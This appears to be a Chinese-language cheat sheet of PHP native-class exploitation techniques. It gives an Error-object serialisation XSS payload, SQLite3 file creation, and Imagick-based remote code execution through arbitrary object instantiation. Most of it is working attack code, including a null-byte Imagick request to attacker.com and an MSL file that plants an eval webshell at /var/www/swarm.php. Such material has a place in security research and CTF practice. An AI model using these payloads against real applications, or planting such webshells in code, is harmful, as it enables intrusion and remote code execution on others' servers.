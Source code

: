 ## XSS: Error/Exception
range：Error(php7, PHP8), Exception(php5, php7, PHP8)

通过内置__toString()魔术方法触发。

demo:
```php
<?php
    $a = unserialize($_GET['a']);
    echo $a;
```
Error Class Exp
```php
<?php
    $a = new Error("<script>alert(1)</script>");
    echo urlencode(serialize($a));
    #注意版本是PHP7
```

## 文件创建：SQLite3
可以创建一个空文件。
```php
new SQLite3('/tmp/sky/evil.php');
```

## RCE：Imagick
[Exploiting Arbitrary Object Instantiations in PHP without Custom Classes – PT SWARM](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) 这篇文章的作者在应对如下场景时找到了一种新的利用手法——Imagick。
```php
new $_GET['a']($_GET['b']);
```
如果仅可控类名和一个参数名，且只能够实例化对象，不能执行对象方法的情况下，同样可以实现 RCE。

### 空字节截断
Imagick 参数被空字节截断也可以正常使用
```php
# No errors
$a = new Imagick("/tmp/positive.png\x00.jpg");

# No errors
$a = new Imagick("http://attacker.com/test\x00test");
```
### https:/
https:/ 会调用 curl 
```php
$a = new Imagick("https:/127.0.0.1:9999/positive.png\x00.jpg");
```

### vid + tempfile RCE
php 会将 post 接收到的文件以临时文件的形式保存在 /tmp 下。假设我们上传一个 msl 文件如下
```xml
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php @eval(@$_REQUEST['a']); ?&gt;" />
 <!-- Relative paths such as info:./../../uploads/swarm.php can be used as well -->
 <write filename="info:/var/www/swarm.php" />
</image>
```
如果使用 vid:msl 的形式将该临时文件进行读取，解析 msl 时会将 webshell 的内容写入 /var/www/swarm.php
```php
$a = new Imagick("vid:msl:/tmp/php*");
```
